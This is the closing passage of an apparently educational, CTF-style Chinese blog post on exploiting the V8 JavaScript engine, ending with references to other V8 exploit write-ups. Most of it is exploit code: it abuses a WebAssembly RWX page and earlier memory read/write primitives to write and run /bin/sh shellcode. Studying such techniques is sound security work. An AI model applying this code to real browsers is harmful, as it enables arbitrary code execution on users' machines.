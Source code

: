 ```javascript

// https://mbebenita.github.io/WasmExplorer/
// (module
//  (export "main" (func $main))
//   (func $main (; 0 ;) (result i32)
//     (i32.const 42)
//  )
// )
var wasm_code = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01,
    0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x60, 0x00, 0x01,
    0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01, 0x00,
    0x06, 0x81, 0x80, 0x80, 0x80, 0x00, 0x00, 0x07, 0x88,
    0x80, 0x80, 0x80, 0x00, 0x01, 0x04, 0x6d, 0x61, 0x69,
    0x6e, 0x00, 0x00, 0x0a, 0x8a, 0x80, 0x80, 0x80, 0x00,
    0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
    0x0b
]);

var shellcode = new Uint8Array([
    0x31, 0xc0, 0x48, 0xbb, 0xd1, 0x9d, 0x96, 0x91, 0xd0,
    0x8c, 0x97, 0xff, 0x48, 0xf7, 0xdb, 0x53, 0x54, 0x5f,
    0x99, 0x52, 0x57, 0x54, 0x5e, 0xb0, 0x3b, 0x0f, 0x05
])

var wasm_instance = new WebAssembly.Instance(new WebAssembly.Module(wasm_code))
var pwned = wasm_instance.exports.main;

var inst_addr = addr_of(wasm_instance)
var rwx_addr = leak(inst_addr + 0x68n, 8)
console.log('rwx buffer:', rwx_addr.hex())

for (var i in shellcode) {
  write(rwx_addr + BigInt(i), BigInt(shellcode[i]))
}

pwned()
```

寫在最後，如果文內有任何錯誤或是有啃 v8 原始碼相關的建議歡迎來信XD

## Reference
- [Exploiting v8: *CTF 2019 oob-v8](https://syedfarazabrar.com/2019-12-13-starctf-oob-v8-indepth/)
- [Exploiting a V8 OOB write.](https://halbecaf.com/2017/05/24/exploiting-a-v8-oob-write/)
- [Exploiting Chrome V8: Krautflare (35C3 CTF 2018)](https://www.jaybosamiya.com/blog/2019/01/02/krautflare/)
- [roll_a_d8-v8利用学习](http://dittozzz.top/2019/07/02/roll-a-d8-v8%E5%88%A9%E7%94%A8%E5%AD%A6%E4%B9%A0/)
